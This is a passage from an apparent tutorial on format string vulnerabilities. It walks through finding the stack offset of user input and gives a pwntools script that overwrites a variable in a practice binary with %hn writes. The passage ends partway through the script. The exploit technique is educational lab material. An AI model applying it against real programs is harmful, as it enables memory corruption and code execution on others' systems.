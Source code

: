
Therefore, in order to create the format string we need to know:

- the address of `i`, which is given us by the program (in a real
  world example you may need to exploit another vulnerability, or even
  the same)
- the value we want to write into `i` that is `0xdeadbeef` (in
  a real exploit may be an address)

- The position at the stack from which we are going to retrieve the
  address of `i`, that is the position where our format string begins
  in this example.

At this point, we need still need to get this last piece of
information, and for this we can dump the string values:

```sh
$ perl -e 'print "AAAA " . "%p|"x8 ' | ./fsv-write-local-big
i is at: 0xff892cbc
AAAA 0x64|0xf7f00620|0x565c41d5|0xf7f61ff4|0x2c|0x41414141|0x7c702520|0x257c7025|
i = 539
```

We can see that our format string starts in the sixth position of the
stack (`0x41414141`), so  we are going to set in the sixth and seventh
positions the addresses of `i` and `&i + 2`. With this information we
should be able to create our exploit.

The following script, made with [pwntools](https://github.com/Gallopsled/pwntools), contains the logic of
our exploit. Take your time to understand and play with it:

```python
from pwn import *

# set the platform of the process we are going to launch
# so functions are adapted to this specific platform
context(arch = 'i386', os = 'linux')


# spawn the process
io = process("./fsv-write-local-big")

# receive the input
line = io.recvline()
print("Program printed:", line)

# take the hexadecimal value and convert it to a number
addr = int(line[-11:-1], 0)

# convert the addr number into byte characters that represent the value
# make sure context is properly set for this to work correctly
b_addr = pack(addr)
print("Address is {} -> {}".format(hex(addr), b_addr))

b_next_addr = pack(addr + 2)

# create format string that includes:
# addr + (addr + 2) + print (0xbeef - 8) chars + %hn \
# + print (0xdead - 0xbeef) chars + %hn
format_str = b_addr + b_next_addr + b"%048871x" + b"%6$hn" + b"%08126x" + b"%7$hn"
print("Our format string:", format_str)

# send format string with a newline to help send it properly
# (it returns errors sometimes if newline is not added)
io.sendline(format_str + b"\n")

# Receive the output and redirect to shell
```